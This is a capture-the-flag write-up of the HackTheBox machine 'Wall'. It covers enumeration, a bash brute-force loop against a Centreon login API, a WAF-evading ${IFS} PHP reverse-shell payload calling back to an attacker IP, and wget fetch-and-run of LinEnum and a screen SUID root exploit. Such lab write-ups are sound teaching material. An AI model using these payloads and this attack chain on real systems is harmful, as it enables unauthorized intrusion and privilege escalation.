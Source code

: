 # HackTheBox: Wall.
My write up for the recently retired HackTheBox machine: Wall!

Wall was a fairly easy machine, although it was a little frustrating 

The machine had a web application vulnerable to RCE, however it was (semi) protected by a WAF.

Root access involved a vulrable SUID binary.

## In the beginning..
As usual, I run nMap:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Finding http on port 80 along with SSH on port 22.

### HTTP

Continuing with basic enumeration, I run dirb on the web app.

```
$ dirb http://10.10.10.157/
```
Discovering these pages:
* aa.php
* server_status
* monitoring

/monitoring being the most interesting page, as it was protected by basic http authentication.

After attempting to login with common credentials and bruteforcing to no avail. I looked to the forums - finding this interesting post by @argot:

  English teachers can be very good at monitoring their class. Often times, if you use the wrong verb, they wont let you go. If you use different VERBS, maybe they'll let you go or at the very least they'll be more talkative.

## Verbs?
Instead of GET, a POST request to /monitoring results in:
```
root@kali:~# curl -X POST "http://10.10.10.157/monitoring/" -d "username=u&password=p"
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>
<meta http-equiv="refresh" content="0; URL='/centreon'" />
```
A redirection to /centreon!

  [Centreon](https://github.com/centreon/centreon) is one of the most flexible and powerful monitoring softwares on the market; it is absolutely free and Open Souce.

Looking around on centreon [documentation](https://documentation.centreon.com/docs/centreon/en/19.04/api/api_rest/index.html#authentication), I found the login api was at:

  http://10.10.10.157/centreon/api/index.php?action=authenticate

### Bruteforcing script!
The documentation says the default username is admin.
So I wrote a super simple script to bruteforce login API using rockyou:

```
#!/bin/bash
cat rockyou.txt | while read line
do
	echo "password=$line";
	curl -X POST "http://10.10.10.157/centreon/api/index.php?action=authenticate" -d "username=admin&password=$line";
done

```
The password is found to be password1.

### Attempting to pop a shell

Some research yields this related CVE: 
https://github.com/mhaskar/CVE-2019-13024

However it dosen't work. Why?

## WAF Evasion
A Web Application Firewall is blocking my attempts. 

I tested the WAF by hand, finding it results in status 403 when either 'nc' or ' ' (space character) were present.

So to inject the command, these two could not be present.

## ${IFS}
After some time studying at mhaskar's script, I decided to exploit using the GUI route.

Instead of space, I used ${IFS} to escape the space char as well as a PHP exploit to bypass 'nc'.

* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [StackExchange]https://security.stackexchange.com/questions/198928/reverse-php-shell-disconnecting-when-netcat-listener

I used those to craft a payload that results in status 200, then put the payload into Commands > Misc and bound it to the poller.

Payload:
```
php${IFS}-r${IFS}'$s=fsockopen("10.10.14.***",1337);$proc=proc_open("/bin/sh",array(0=>$s,1=>$s,2=>$s),$pipes);'

```
I then navigated to the page that the mhaskar script is sending requests to, checked the box that says 'post command' and hit export while listening on netcat.

Netcat listener:
```
$ nc -lvp 1337
```
I got a shell!

## www-data

Now I have a restricted shell - I need to perfrom some privilege escalation.

I used LinEnum by running the following on my machine in the directory that LinEnum was in.

```
$ python -m SimpleHTTPServer 8000
```

And running the following on the target machine:

```
& wget 10.10.14.***:8000/LinEnum.sh
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
```

## SUID PrivEsc

LinEnum shows me a vulnerable SUID:

```
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```
After a bit of research, I found an [exploit](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)!

With accompanying script: [screen2root](https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh).

In the same way as before I run the script on the target machine:
```
$ wget 10.10.14.***:8000/screenroot.sh
$ chmod +x screenroot.sh
$ ./screenroot.sh
```

## Rooted!

After running the script, I get root access!

## Thanks for reading :)

I've prepared writeups for Postman, Traverxec and Obscurity. Check back when they're retired for the writeups.
